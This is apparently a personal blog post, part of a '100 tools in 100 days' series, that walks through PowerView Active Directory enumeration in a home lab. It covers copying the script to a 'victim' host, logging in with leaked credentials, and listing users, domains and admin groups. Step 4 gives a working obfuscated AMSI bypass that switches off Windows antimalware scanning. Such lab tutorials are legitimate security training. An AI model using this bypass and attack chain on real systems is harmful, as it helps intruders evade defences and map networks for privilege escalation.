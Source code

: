 ```yaml
---
title:  "Day 53 - PowerView - 100 tools in 100 days!"
excerpt: "In this post, I will show you the tool PowerView and how it works."
mathjax: true
layout: post
categories:
    -- github
    -- website
---
```


1 . Introduction
<br>
2 . My Setup
<br>
3 . What is PowerView?
<br>
4 . Why use PowerView?
<br>
5 . How to use PowerView?
<br>
6 . Summary

---

## This post is designed to introduce you to the tool PowerView.

![](https://raw.githubusercontent.com/matthewomccorkle/matthewomccorkle.github.io/master/_posts/assets/100%20tools/powerview/powerview0.png)

# <span style="color:red">***Disclaimer***</span> : **Please only use PowerView for professional and educational reasons. Do not use this tool for nefarious or malicious reasons.**

---

### 1. **Introduction**

Welcome to the **fifty-third** blog post of 100 tools in 100 days.<br> 

Find **PowerView** @ GitHub [here](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1).

PowerView was created by Will Schroeder (@harmj0y) find him at:

[GitHub](https://github.com/HarmJ0y)

[LinkedIn](https://www.linkedin.com/in/willschroeder/)

[Twitter](https://twitter.com/harmj0y)


---

### 2. **My Setup**

For running the PowerView tool, I used Kali Linux in a VMware Workstation 16 Player virtualized environment.

For my victim network I am running a virtualized Active Directory Domain Controller and Windows 10 Enterprise Edition user in a VMware Workstation 16 Player virtualized environment. 

I am using this simple [cheat sheet](https://github.com/drak3hft7/Cheat-Sheet---Active-Directory) for PowerView command reference.

---

### 3. **What is PowerView?**

PowerView is an enumeration PowerShell script which allows a user to discover and identify various aspects of an Active Directory.

---

### 4. **Why use PowerView?**

PowerView is an initial environment reconnaissance tool for security researchers. 

Reconnaissance occurs at various stages of the penetration testing process. 

This particular initial reconnaissance would be after authenticating as a user on an Active Directory domain. 

Therefore, this reconnaissance phase should not be confused with the overall initial discovery reconnaissance phase where you are determining IP addresses, domain names, and services using tools like Nmap. 

PowerView allows a researcher to find other users, domain admins, computers, groups, shares, Group Policies, domain trusts, and much more just as a regular user. 

---

### Before moving forward:

 - I am using a virtualized AD network with a Domain Controller and one user signed in. 
 - For these examples I had to relax Firewall settings.
 - I am using OpenSSH server on the users computer to connect to. 
 - Prior to this point in the attack chain I completed full enumeration of the network and gained access to leaked credentials for the user.
 - Not every active directory attack will function the same, and likely you would not find an environment where firewall solutions are relaxed.
 - I used BadBlood to automate the creation of my Active Directory, you can do the same by visiting the BadBlood page [here](https://github.com/davidprowe/BadBlood).

### 5. **How to use PowerView?**

It is important to remember that PowerView is a ps1 script that needs to be on the users device to run. I will go through the steps I took to securely copy the script to the victim device, execute the script via an SSH terminal established from leaked credentials, and some of the scripts functions that can be used for further pivoting and potential privilege escalation. 

Ensure you have [PowerView.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1) downloaded to your attacking device.

    Step 1:
    Securely copy the powershell script using the following command:

    scp PowerView.ps1 <USERNAME>@<DOMAIN>:<PATH TO DOWNLOAD TO>

<br>

![](https://raw.githubusercontent.com/matthewomccorkle/matthewomccorkle.github.io/master/_posts/assets/100%20tools/powerview/powerview1.png)

    Step 2:
    SSH into the victim device using the leaked credentials:

    ssh <USERNAME>@<DOMAIN>

<br>

    Step 3:
    Enter the following command to upgrade to a PowerShell terminal:
    
    powershell -ep RemoteSigned

<br>

![](https://raw.githubusercontent.com/matthewomccorkle/matthewomccorkle.github.io/master/_posts/assets/100%20tools/powerview/powerview1a.png)

    Step 4:
    Enter the following command to bypass Windows Antimalware:

    S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )

<br>

You can read more about this Antimalware Scan Interface bypass [here](https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell).

![](https://raw.githubusercontent.com/matthewomccorkle/matthewomccorkle.github.io/master/_posts/assets/100%20tools/powerview/powerview1b.png)

    Step 5:
    Navigate to the file path where you securely copied the PowerView.ps1 file and enter the following command:

    . .\PowerView.ps1

<br>

You likely will not get a response back from executing PowerView.ps1 which is normal. 

![](https://raw.githubusercontent.com/matthewomccorkle/matthewomccorkle.github.io/master/_posts/assets/100%20tools/powerview/powerview2.png)

    Step 6:
    First lets get the list of users in the environment (note if you have a lot of users this will spam your terminal):

    Get-NetUser

<br>

![](https://raw.githubusercontent.com/matthewomccorkle/matthewomccorkle.github.io/master/_posts/assets/100%20tools/powerview/powerview3.png)

    Step 7:
    View the properties of the current domain by entering:

    Get-NetDomain

<br>

![](https://raw.githubusercontent.com/matthewomccorkle/matthewomccorkle.github.io/master/_posts/assets/100%20tools/powerview/powerview4.png)

    Step 8:
    View members of the group "Domain Admins" by entering the following:

    Get-NetGroup

    When prompted for identity 1 enter Domain Admins

    When prompted for identity 2 press enter

<br>

![](https://raw.githubusercontent.com/matthewomccorkle/matthewomccorkle.github.io/master/_posts/assets/100%20tools/powerview/powerview6.png)


### 6. **Summary**

Not all PowerView commands work for every active directory environment, however, many of the options in PowerView are a great place to start when enumerating active directory during your environment reconnaissance. 

I hope you enjoyed this blog post.

Thanks for reading!<br>

If you have suggestions for what tool to cover next, [contact](mailto:matthew.o.mccorkle@gmail.com) me!
